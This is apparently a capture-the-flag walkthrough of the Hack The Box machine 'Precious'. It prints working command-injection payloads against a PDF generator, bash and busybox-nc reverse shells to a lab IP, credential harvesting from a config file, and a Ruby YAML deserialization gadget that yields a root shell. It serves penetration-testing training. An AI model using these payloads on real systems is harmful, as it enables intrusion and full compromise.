- Machine Name: Precious
- Difficulty: Easy
- OS Type: Linux

### Port Scanning - Service & Version Enumeration

```php
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDEAPxqUubE88njHItE+mjeWJXOLu5reIBmQHCYh2ETYO5zatgel+LjcYdgaa4KLFyw8CfDbRL9swlmGTaf4iUbao4jD73HV9/Vrnby7zP04OH3U/wVbAKbPJrjnva/czuuV6uNz4SVA3qk0bp6wOrxQFzCn5OvY3FTcceH1jrjrJmUKpGZJBZZO6cp0HkZWs/eQi8F7anVoMDKiiuP0VX28q/yR1AFB4vR5ej8iV/X73z3GOs3ZckQMhOiBmu1FF77c7VW1zqln480/AbvHJDULtRdZ5xrYH1nFynnPi6+VU/PIfVMpHbYu7t0mEFeI5HxMPNUvtYRRDC14jEtH6RpZxd7PhwYiBctiybZbonM5UP0lP85OuMMPcSMll65+8hzMMY2aejjHTYqgzd7M6HxcEMrJW7n7s5eCJqMoUXkL8RSBEQSmMUV8iWzHW0XkVUfYT5Ko6Xsnb+DiiLvFNUlFwO6hWz2WG8rlZ3voQ/gv8BLVCU1ziaVGerd61PODck=
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFScv6lLa14Uczimjt1W7qyH6OvXIyJGrznL1JXzgVFdABwi/oWWxUzEvwP5OMki1SW9QKX7kKVznWgFNOp815Y=
|   256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH+JGiTFGOgn/iJUoLhZeybUvKeADIlm0fHnP/oZ66Qb
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80/HTTP

port 80 is running http website,, i open URL in web browser



Hmm, need to add this to /etc/hosts file

```php
echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts
```

and now refresh the page



let’s try by starting our python http server on kali machine and send request from this website


we got connection back to our machine



let’s dig deep into  the application, first i’ll check what web technologies is running using whatweb

```php
	whatweb http://precious.htb/
```



in backend it’s running ruby on rails and Phusion Passenger, searching for exploit i didn’t find anything useful, let’s check website’s functionaity and behaviour first i’ll create a simple html file to generate the pdf and try to analyze that

```php
<html>
   <head>
       <title>test</title>
   </head>
   <body>
       <test</h1>
       
   </body>
</html>
```

and servs it over python http server

accessing it got the error and when checking on the http web server i found it also request `x` file



to resolve this let’s just create a black `x` file with touch

```php
touch x
```

and if we try again, we got pdf generated



i’ll try to analyze the file using exiftool

```php
exiftool ~/Downloads/ea3xg26ufcr3p98d2ism9jlphrlrjvnl.pdf
```



searching for exploit i found https://www.exploit-db.com/exploits/51293

and reading through exploit i found that we can inject commands in website like `http://%20`ping -c 1 10.10.14.17`` 

and we can capture ICMP traffic on our machine using

```php
sudo tcpdump -i tun0 icmp -v
```



and we got ping request means our command gets executed, to ger reverse shell i used - `http://%20`bash -c 'bash -i >& /dev/tcp/10.10.14.17/443 0>1&'`` and we got connection on our listener but it disconnects and says permission denied



used `http://%20`busybox nc 10.10.14.17 443 -e /bin/bash``  and got shell connection 



further enumeration reveals the credentials of henry user in /home/ruby/.bundle/config



let’s use this password to login as henry 

```php
ssh henry@10.10.11.189
```



after getting shell as henry

running sudo -l to find if user has any permissions to run any command as root using sudo - `sudo -l`



let’s read the file contents 



i found the exploit note for ruby privilege escalation

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/

the above article says that as the file is loading dependencies.yml we can create malicious file that contains below code, as we can see it’s not specifying full path so it will firstly search for file in current working directory

i’m creating dependencies.yml in /tmp folder

```php
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.17/1337 0>&1'"
         method_id: :resolve
```

and run `sudo /usr/bin/ruby /opt/update_dependencies.rb` 



got a root shell